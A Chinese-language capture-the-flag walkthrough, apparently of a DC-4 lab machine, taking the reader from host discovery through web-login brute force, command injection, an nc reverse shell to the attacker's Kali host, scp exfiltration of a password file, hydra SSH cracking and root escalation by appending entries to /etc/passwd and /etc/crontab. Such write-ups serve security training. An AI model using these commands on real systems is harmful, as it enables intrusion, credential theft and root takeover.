nmap -sP 192.168.1.0/24

或者

arp-scan -l

主机发现

进行详细扫描

nmap -A -p- 192.168.1.129



发现开启了http与ssh服务，访问http，发现登录页面，使用admin进行弱口令爆破



发现密码happy，进行登录，发现命令执行点



验证可以任意执行命令



反弹shell至kali
```
nc+-e+/bin/bash+192.168.1.128+4444
```



继续使用python获取交互模式
```
python -c 'import pty;pty.spawn("/bin/bash")'
```



在jim的家目录下找到old-password.bak,scp发送至kali，然后使用hydra进行爆破
```
scp old-password.bak kali@192.168.1.128:/home/kali/Desktop
hydra -l jim -P old-password.bak -e ns -t 64 192.168.1.128 ssh
```



获取到密码jibril04,进行登录，得到提示mail



寻找mail，进入/var/mail,发现文件jim，cat一下



发现用户名charles密码^xHhA&hvim0y，切换，sudo -l,发现teehee



teehee提权
1. 第一种方法
```
echo "test::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su test
```
2. 第二种方法
```
echo "* * * * * root chmod 4777 /bin/sh"|sudo teehee -a /etc/crontab
/bin/sh
```
